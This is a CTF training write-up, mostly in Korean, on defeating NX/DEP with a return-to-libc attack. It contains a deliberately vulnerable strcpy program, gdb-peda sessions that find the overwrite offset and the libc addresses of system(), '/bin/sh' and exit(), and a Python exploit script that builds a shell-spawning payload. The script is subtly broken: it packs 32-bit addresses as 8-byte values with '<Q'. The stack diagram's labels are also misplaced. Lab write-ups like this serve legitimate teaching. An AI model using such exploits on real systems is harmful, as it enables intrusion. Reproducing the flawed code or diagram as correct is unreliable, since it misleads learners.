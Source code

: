 # NX
Also known as Data Execution Prevention (DEP), this protection marks writable regions of memory as non-executable. This prevents the processor from executing in these marked regions of memory.

If we look at the memory map of a program compiled with NX protection, the stack and heap are typically marked non-executable.

In the following diagrams, we will be introducing a new indicator colour for the memory regions to denote 'writable and non-executable' mapped regions. Firstly, the stack before the read occurs looks like this:

When we perform the same attack, the buffer is overrun and the saved pointers are overwritten once again.

After the function returns, the program will set the instruction pointer to 0xbfff0000 and attempt to execute the instructions at that address. However, since the region of memory mapped at that address has no execution permissions, the program will crash.

Thus, the attacker's exploit is thwarted.

# Vulnerable Program
```
#include <stdio.h>
#include <string.h>

void exploitme(char* input)
{
  char buf[32];
  strcpy(buf, input);
  puts(buf);
}

int main(int argc, char* argv[])
{
  if ( argc < 2 ) return -1;

  exploitme(argv[1]);

  return 0;
}
```

# Bypassing NX with Ret2Libc


![Fig 1. stack][classic1]

## return address 위치 찾기
우선 버퍼의 크기가 소스코드상에서는 32인데, 실제 Overflow 되어서 EIP가 덮어지는 정확한 지점을 알아야 한다.
```
$ gdb -q ./nxstack
Reading symbols from ./nxstack...(no debugging symbols found)...done.
```
gdb-peda에 patter_create 와 patter_offset 기능을 활용하자.
```
gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
```
길이 50의 임의의 패턴을 생성하였다. 이를 복사하여 run 하자.
```
gdb-peda$ r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
Starting program: /home/skcctf/ctf_training/day3/nx/nxstack 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41412941 ('A)AA')
ECX: 0xfbad0084
EDX: 0xb7fcc870 --> 0x0
ESI: 0x2
EDI: 0xb7fcb000 --> 0x1b3db0
EBP: 0x0
ESP: 0xbffff610 ("AA0AAFAAbA")
EIP: 0x61414145 ('EAAa')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x61414145
[------------------------------------stack-------------------------------------]
0000| 0xbffff610 ("AA0AAFAAbA")
0004| 0xbffff614 ("AFAAbA")
0008| 0xbffff618 --> 0xbf004162
0012| 0xbffff61c --> 0x0
0016| 0xbffff620 --> 0x0
0020| 0xbffff624 --> 0x0
0024| 0xbffff628 --> 0xb7fcb000 --> 0x1b3db0
0028| 0xbffff62c --> 0xb7fffc0c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x61414145 in ?? ()
```
현재 SIGSEGV가 발생하여 프로그램이 강제로 종료되었으며 `0x61414145 in ?? ()`라는 구문이 출력되어 있다. 
이는 EIP 레지스터에 해당 값이 들어있기 때문인데, 그 값의 위치에 접근하려다 실패했기 때문이다.
```
gdb-peda$ info register eip
eip            0x61414145	0x61414145
```
그럼 peda가 생성했던 패턴 중 `0x61414145`은 어느 지점에 있었는지를 확인하면 return address 가 위치하는 곳을 알 수 있다.
```
gdb-peda$ pattern_offset 0x61414145
1631666501 found at offset: 36
```
해당 지점은 36이다.

즉, Buffer 가 32로 선언되어있고, 그 뒤에 EBX가 push되어(+4) 36칸을 차지하며 그 뒤로는 Return Address 가 위치해야하는데, 이 부분을 다른 함수의 주소로 덮어씌우면 Return 시에 그 함수를 수행하게 된다.

## system() 의 주소
익스플로잇은 다양한 작업을 목표로 할 수 있지만 여기에서는 system("/bin/sh")를 수행하도록 할 것이다.
먼저 system() 을 수행하기 위해 LibC에서 system()이 어디에 위치했는지 찾자.
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e51b40 <__libc_system>

gdb-peda$ x/s 0xb7e51b40
0xb7e51b40 <__libc_system>:	"\203\354\f\213D$\020\350\061h\016"
```
이로써 `0xb7e51b40`에 system()이 위치한다는 것을 확인하였다.

## /bin/sh
system()의 인자로 전달할 값을 스택에 올려두어야 한다. system("/bin/sh")를 수행하도록 할 것이므로 "/bin/sh"이 어디에 있는지 알아야 한다.
gdb로 대충 아무 부분에 브레이크 포인트 걸어놓고 실행한 상태에서 (동적상태) find 명령어로 "/bin/sh"를 찾자.
```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f748c8 ("/bin/sh")
```
이로써 `0xb7f748c8`에 "/bin/sh"이 위치한다는 것을 확인하였다.

## exit() 주소
system() 함수가 return되고 난 후 jump할 위치를 지정해야 한다.
사실 system("/bin/sh")가 호출되는 순간 이미 exploit에 성공했으므로 이 부분은 적당히 Fake 값으로 대충 "BBBB" 로 채워넣어도 무방하기는 하다.
하지만 차이점이 있다면 쉘 획득 후 작업을 종료하고 나갈 때 Error가 발생한다.
이 부분까지 깔끔하게 처리하고 싶다면 exit()의 주소를 찾은 후 이것을 호출하게 하면 마치 정상적으로 종료되는 것처럼 보이게 할 수 있다.
```
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e457f0 <__GI_exit>

gdb-peda$ x/s 0xb7e457f0
0xb7e457f0 <__GI_exit>:	"\350\204+\017"
```
이렇게 얻은 exit()의 주소는 `0xb7e457f0`이다.

## 종합
스택에 push된 값들은 역순으로 처리된다는 것을 기억해야 한다. 따라서 system()이 수행되고 난 후의 return addr이 먼저 나온다. 그리고 뒤에 system()의 argument인 /bin/sh가 들어간다. 그렇다면 system("/bin/sh")가 수행되고 난 후의 return addr의 내용을 수행하게 된다.

EIP smash = 32 + 4 = 36 \
system() = 0xb7e51b40 \
system() return address = BBBB (fake word) or exit() \
/bin/sh = 0xb7f748c8 \

```
|---------------------------|-------------------|--------------|---------------|
| 36 A's                    | 0xb7e51b40        |     BBBB     | 0xb7f748c8    |
|---------------------------|-------------------|--------------|---------------|
                       args        EBP                 EIP 
```
현재로써는 대충 fake값인 BBBB로 설정해두었다. 또는 `0xb7e457f0`으로 exit()를 EIP부분에 넣으면 좋다.

## Exploit code
```
from struct import *

system_addr = 0xb7e51b40 
binsh_addr  = 0xb7f748c8
exit_addr   = 0xb7e457f0

payload = "A" * 32                           # buf

payload += "A" * 4                           # ebx

payload += pack("<Q", system_addr)           # ret addr : system()

#payload += "B" * 4                          # return of system(), fake value (don't care error msg)
payload += pack("<Q", exit_addr)             # to avoid closing error, use exit() func addr

payload += pack("<Q", binsh_addr)            # /bin/sh addr

f = open("in.txt", "w")
f.write(payload)
```



[classic1]: ./nxstack_view.png
